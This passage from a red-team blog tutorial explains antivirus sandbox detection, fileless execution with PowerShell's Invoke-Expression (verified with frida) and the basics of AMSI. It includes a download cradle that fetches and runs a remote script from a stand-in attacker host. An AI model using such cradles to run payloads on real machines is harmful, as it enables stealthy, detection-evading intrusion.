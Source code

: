- **Sandbox Detection:** In this type of detection, the program is run in a sandbox(virualized environment) and it's all behavior is recorded which is at the end analyzed automatically through a weight system in the sandbox and/or manually by a malware analyst. In this type of detection, the antivirus program will be able see in detail exactly what that file will do in that particular environment.

Be it any detection method, it's easier for any AV products to do it while the binary is on Disk. At-least it used to be the case before AMSI, it was hard for AV products to detect fileless malware(which doesn't drop it's artifacts on the disk and completely executes in the memory). Even as of today it's the objective of most Adverseries and Red Teamers to not touch the disk or try to reduce it as much as possible cause it just reduces the likelihood of getting detected.

## Invoke-Expression

Powershell has a cmdlet i.e., **Invoke-Expression** which evaluates or runs the string passed to it completely in memory without storing it on disk.
We can also verify it with the help of **frida**, you can also use APIMonitor here if you want.
I will be remotely calling a simple powershell script that has a function which just prints the current date.

```bash

function printDate {
	get-date
}
```

```bash 
Window 1

IEX(New-Object Net.WebClient).downloadString('http://attackerip:8000/date.txt'); printDate
```

```bash
Window 2

frida-trace -p 10004 -x kernel32.dll -i Write*
```
![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210812160257.png)

If the program has to write something to a file on disk, it will utilize the WriteFile or WriteFileEx API defined inside kernel32.dll. So here we are tracing all API calls which starts with 'Write' inside kernel32.dll. So we can clearly see that the IEX cmdlet doesn't write the contenst to the disk, rather it executes the contents directly in memory. (**Note**: when you press up or down key, you will see a call to WriteFile API, that's not called by IEX)

## Introduction to AMSI

So for attackers and Red Teamers it was all going easy, days were good and there were no worries about getting detected. That's when Microsoft introduce AMSI with the release of Windows 10. At a high level, think of AMSI like a bridge which connects powershell to the antivirus software, every command or script we run inside powershell is fetched by AMSI and sent to installed antivirus software for inspection.

